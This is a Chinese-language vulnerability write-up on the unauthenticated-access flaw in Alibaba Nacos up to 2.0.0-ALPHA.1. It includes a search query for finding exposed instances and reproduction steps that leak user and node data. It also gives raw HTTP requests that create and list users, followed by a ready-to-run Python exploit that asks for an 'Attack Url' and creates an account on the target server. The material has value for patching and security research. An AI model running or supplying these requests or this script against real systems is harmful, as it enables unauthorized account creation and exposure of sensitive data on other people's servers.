 # Nacos 未授权访问漏洞

## 漏洞描述

2020年12月29日，Nacos官方在github发布的issue中披露Alibaba Nacos 存在一个由于不当处理User-Agent导致的未授权访问漏洞 。通过该漏洞，攻击者可以进行任意操作，包括创建新用户并进行登录后操作。

## 漏洞影响

```
Nacos <= 2.0.0-ALPHA.1
```

## 网络测绘

```
title="Nacos"
```

## 环境搭建

https://github.com/alibaba/nacos/releases/tag/2.0.0-ALPHA.1

```shell
wget https://github.com/alibaba/nacos/releases/tag/2.0.0-ALPHA.1
tar -zxvf nacos-server-2.0.0-ALPHA.1.tar.gz
./startup.sh -m standalone
```

然后访问 http://xxx.xxx.xxx.xxx:8848/nacos 即可，默认账号密码 **nacos/nacos**

![](images/202202102003931.png)

## 漏洞复现

可以再项目的 issues 中看到大量的关于越权的安全问题的讨论

https://github.com/alibaba/nacos/issues/1105

![](images/202202102003894.png)

![](images/202202102003898.png)

这里我们在登录后任意一个位置看一下请求，并在未授权的情况下看是否可以访问

![](images/202202102004781.png)

这里的请求url简化为

http://xxx.xxx.xxx.xxx:8848/nacos/v1/core/cluster/nodes?withInstances=false&pageNo=1&pageSize=10&keyword=

退出用户后在前台访问这个 url

![](images/202202102004013.png)

可以发现以及泄露了 **ip节点** 等数据

同样我们查看用户列表的请求并在前台访问

http://xxx.xxx.xxx.xxx:8848/nacos/v1/auth/users?pageNo=1&pageSize=9

![](images/202202102004595.png)

![](images/202202102004600.png)

这里可以发现对用户的请求是完全没有过滤的，可以通过未授权的情况获取用户的敏感信息

我们尝试创建用户并抓包

![](images/202202102004325.png)

返回下列创建成功

```plain
{"code":200,"message":"create user ok!","data":null}
```

同样的我们简化请求

```plain
POST /nacos/v1/auth/users?
username=peiqi&password=peiqi
```

![](images/202202102004662.png)

![](images/202202102004665.png)

看到有文章说要加上**User-Agent请求头**

```plain
User-Agent: Nacos-Server
```

但是大量测试之后发现好像是无关紧要的，没有请求头同样可以创建用户

- 同样的原理也可以用于修改密码添加配置等

## 漏洞POC

```
# 添加用户
POST /nacos/v1/auth/users HTTP/1.1
Host: 127.0.0.1
User-Agent: Nacos-Server
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/
*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

username=aaaa&password=bbbb
```

```
# 查看用户
GET /nacos/v1/auth/users?pageNo=1&pageSize=100 HTTP/1.1
Host: 127.0.0.1
User-Agent: Nacos-Server
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;
q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
```

- 注意下大部分企业的 nacos的url为 /v1/auth/users ，而不是 /nacos/v1/auth/users
- 可以按目标情况自行修改

```python
import requests
import sys
import random
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: Nacos <= 2.0.0-ALPHA.1                                   \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    # vuln_url = target_url + "/nacos/v1/auth/users"
    vuln_url = target_url + "/v1/auth/users"
    headers = {
        "User-Agent": "Nacos-Server",
        "Content-Type": "application/x-www-form-urlencoded",
    }
    number = random.randint(0,999)
    data = "username=peiqi{}&password=peiqi".format(str(number))
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=5)
        print("\033[32m[o] 正在请求 {}/nacos/v1/auth/users \033[0m".format(target_url))
        if "create user ok!" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {}存在漏洞 \033[0m".format(target_url))
            print("\033[32m[o] 成功创建账户 peiqi{} peiqi\033[0m".format(str(number)))
        else:
            print("\033[31m[x] 创建用户请求失败 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

![](images/202202102004659.png)
